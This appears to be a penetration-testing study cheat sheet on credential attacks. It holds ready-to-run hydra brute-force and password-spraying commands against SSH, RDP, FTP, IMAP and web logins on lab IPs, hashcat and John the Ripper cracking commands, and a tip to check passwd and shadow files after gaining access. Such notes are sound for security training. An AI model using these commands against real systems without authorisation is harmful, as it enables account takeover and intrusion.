 Once inside the server, always check for passwd and shadow file permissions

#### Brute Forcing

> [!info]  Always try default passwords, and username as password if we have some users

**First of all, brute force with basic usernames and passwords:**
* **Basic usernames:** `/usr/share/seclists/Usernames/top-usernames-shortlist.txt`
* **Basic passwords:** `/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt`

| **Brute force**                                                                                                                                           | **Description**                              |
| --------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| `hydra -l george -P /usr/share/wordlists/rockyou.txt -e nsr -s 2222 ssh://192.168.50.201 -vV`                                                             | SSH                                          |
| `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" -e nsr rdp://192.168.50.202 -vV`                                               | RDP - Password spraying                      |
| `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 -e nsr http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" -vV` | HTTP Form                                    |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.213.61 -vV`                                                                   | FTP                                          |
| `hydra -L users.txt -P cewl-list.txt -e nsr -f 192.168.235.137 imap -u -f -vV`                                                                            | IMAP                                         |
| `hydra -L wordlist.txt -P wordlist.txt -e nsr -u -f SERVER_IP -s PORT http-get / -vV`                                                                     | Basic Auth Brute Force - User/Pass Wordlists |

#### Hash cracking

> [!info] We can use Hash-identifier in kali linux to find the hash type

Find Hashcat modes for specific hash type:
```bash
hashcat --help | grep -i "ntlm"
```

| **Hash cracking** | **Description** |
| ---- | ---- |
| `hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` | Hashcat NTLM hash with rule (we can skip the rule) |
| `john --wordlist=/usr/share/wordlists/rockyou.txt --rules=/usr/share/hashcat/rules/best64.rule ssh.hash` | John the Ripper with rule (we can skip the rule) |

**[Password mutations with Hashcat](https://academy.hackthebox.com/module/147/section/1391)**
Use Cewl if we have a webapp with juicy content